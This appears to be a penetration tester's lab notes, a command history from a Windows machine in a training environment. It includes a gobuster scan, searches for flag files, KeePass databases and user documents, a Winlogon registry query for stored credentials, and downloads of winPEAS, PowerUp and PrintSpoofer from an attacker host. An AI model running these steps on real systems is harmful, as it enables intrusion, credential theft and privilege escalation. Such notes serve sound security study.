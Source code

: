 ## API Endpoints
`gobuster dir -u http://192.168.159.121:80 -w /usr/share/wordlists/dirb/big.txt -p pattern`
```

```

# Command History
```c
ssh Eric.Wallows@192.168.133.141 

powershell

Get-ChildItem -Path C:\ -Recurse -ErrorAction SilentlyContinue -Include local.txt,proof.txt > results.txt

Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue

Get-ChildItem -Path C:\wamp64 -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue

Get-ChildItem -Path C:\Users\Eric.Wallows\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue


net user Mary.Williams
  // User name                    Mary.Williams
  // Full Name                    Mary.Williams
  // Comment
  // User's comment
  // Country/region code          000 (System Default)
  // Account active               Yes
  // Account expires              Never

  // Password last set            3/25/2022 2:02:50 PM
  // Password expires             Never
  // Password changeable          3/26/2022 2:02:50 PM
  // Password required            Yes
  // User may change password     Yes

  // Workstations allowed         All
  // Logon script
  // User profile
  // Home directory
  // Last logon                   4/24/2025 7:08:06 PM

  // Logon hours allowed          All

  // Local Group Memberships      *Users
  // Global Group memberships     *None
  // The command completed successfully.

// drop windpeasx64 on box
iwr -uri http://192.168.48.3/winPEASx64.exe -Outfile winPEAS.exe
//run it

reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"

Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

iwr -uri http://192.168.45.186/PowerUp.ps1 -Outfile PowerUp.ps1

 iwr -uri http://192.168.45.186/PrintSpoofer64.exe -Outfile printspoofer.exe
```